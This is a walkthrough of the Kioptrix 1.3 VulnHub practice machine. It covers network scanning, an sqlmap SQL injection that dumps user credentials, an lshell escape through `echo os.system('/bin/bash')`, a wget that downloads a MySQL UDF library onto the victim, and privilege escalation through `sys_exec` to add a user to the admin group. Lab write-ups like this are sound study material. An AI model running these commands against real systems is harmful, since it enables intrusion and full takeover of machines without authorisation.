 # Kioptrix 1.3 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/ "URL for kioptrix 1.3"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

By now, we know that our attacker's IP address is 10.0.2.5 from the result of the `ifconfig` command. To find the IP of the target, we'll scan the local subnet with `nmap -sn 10.0.2.0/24` to find what hosts are on the network.

![](images/ping.png "nmap -sn 10.0.2.0/24 shows us that there are four possible IP addresses for our target")

The two VirtualBox hosts are `10.0.2.3` and `10.0.2.8`, and VirtualBox uses the former for its nameserver, so our target is `10.0.2.8`.

## Scanning

Now, we'll use `nmap -sV 10.0.2.8` to enumerate the services running on the target, and this will provide an attack surface for us.

![](images/nmap.png "nmap -sV 10.0.2.8 tells us the services runnning on the target")

We see that the target has several ports open, and we'll go down the list to find an exploitable one.

## Gaining access

From previous engagements with the past Kioptrix virtual machines, I know that the version of OpenSSH running is not one that we can easily exploit. You can look through my previous writeups to see how I came to that conclusion, or you can run `searchsploit openssh` and see that none of the available exploits are that useful for us.

Instead, we'll target port 80, which is running the http service, meaning that if we go to http://10.0.2.8 in a web browser, we'll get a web page back.

![](images/front.png "Front page of http://10.0.2.8")

We can also run an application called OWASP ZAP which will inform us of any vulnerabilities in the web app. Loading up ZAP and putting http://10.0.2.8 into the target field will perform a scan of the web application, and we can see the results.

![](images/zap.png "Result of running OWASP ZAP")

It looks like the checklogin.php page is vulnerable to an SQL injection. Looking at the request sent, we can see that the HTTP POST method is used with parameters of "myusername", "mypassword", and "Login". We can take this information and use another tool, sqlmap, to perform automated SQL injections so that we can find valid usernames and passwords. We run this tool with the command `sqlmap -u "http://10.0.2.8/checklogin.php" --data "myusername=test&mypassword=test&Submit=login" --dump --level=5 --risk=3`. This tells sqlmap to target the checklogin.php page on 10.0.2.8, using the data string provided in an HTTP POST request, dump the resulting database table entries, and operate with high-level and high-risk tests.

![](images/sqlmap.png "Result of the sqlmap attack")

The resulting attack gives us the usernames and passwords of two users, john and robert. Logging in to the web page as either user just displays the username and password, so instead, we'll use SSH to connect to the vulnerable machine with the command `ssh john@10.0.2.8` and entering the password when prompted.

## Elevating Access

![](images/john.png "Logging in and exploring as john")

When we log in as either john or robert, we're put into a LiGoat shell that only allows us to perform a limited set of commands, `?`, `help`, `cd`, `clear`, `echo`, `exit`, `ll`, `lpath`, and `ls`. I hadn't heard of `ll` or `lpath` before, so I tried them out, and it looks like `ll` is just an alias for `ls -l`, and `lpath` defines the path that the user is allowed to be in. Running a command other than the ones listed results in an error that the command is unknown, and attempting to explore outside of the allowed path gives a warning on the first attempt and kicks you out of the system on the second attempt.

Using `ls -al`, we can see the dot files that are in our current directory. I hadn't heard of the .lhistory file before, so after some googling, I came to discover that it represents the presence of lshell, which is a limited shell environment [written in Python](https://github.com/ghantoos/lshell "Link to the lshell GitHub repo"). Doing some [research](https://www.aldeid.com/wiki/Lshell "lshell bypass") into lshell showed that it's possible to break out of the limited shell environment with the command `echo os.system('/bin/bash')`. This is because lshell uses eval() to strip quotes from the command line, and as a result, it allowed for the execution of valid Python expressions.

![](images/escape.png "Breaking out of lshell")

Now that we're in a regular shell environment, we still need to get root access to the machine. Since this machine is running as a web server, I thought to check the /var/www directory to see if there was anything of interest.

![](images/www.png "Contents of /var/www")

Browsing the files with `cat` showed something interesting in checklogin.php, hard-coded credentials for access to an SQL database.

![](images/checklogin.png "Hardcoded credentials in checklogin.php")

It looks like we can log in to the MySQL database with the username "root" and an empty password. Doing so with `mysql -u root` shows that the credentials are valid.

![](images/mysql.png "Logging in as root to the MySQL database")

Doing some more [research](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/ "MySQL privilege escalation") shows us that it's possible to escalate our privileges if we already have root access to a MySQL database. To do so, we'll first need to download a [shared object file](https://github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so "Link to the shared object file") onto our victim. This can be done with the command `wget --no-check-certificate https://raw.githubusercontent.com/mysqludf/lib_mysqludf_sys/master/lib_mysqludf_sys.so -O /home/john/.`

![](images/wget.png "Downloading the shared object")

This exploit works by loading this file into a new table row and dumping that table row into a new file in the /usr/lib directory. We do this through MySQL because our regular user is unable to write to this directory, but because we're running MySQL as the root user, we're able to write to there. Then, we'll create a new function in MySQL that will point to the code in the new file, and then we're able to execute arbitrary system commands with that MySQL function.

However, halfway through the steps to set up the exploit, I found out that the /usr/lib/lib\_mysqludf\_sys.so file already existed, so it looks like the exploit had been already loaded in the system. Testing it out with the MySQL command `select sys_exec('id > /tmp/out; chown john.john /tmp/out');` will write the results of the `id` command to the file /tmp/out, and if we `cat` that file, we see that the program runs as root.

![](images/id.png "Testing the MySQL exploit")

Now that we know we can run arbitrary commands as root, we'll run the MySQL command `select sys_exec('adduser john admin');` which will add the john user to the admin group, giving them access to the `sudo` command. Exiting MySQL with `exit;`, running `sudo su root`, and entering john's password when prompted shows that we are now root!

![](images/root.png "Root access")
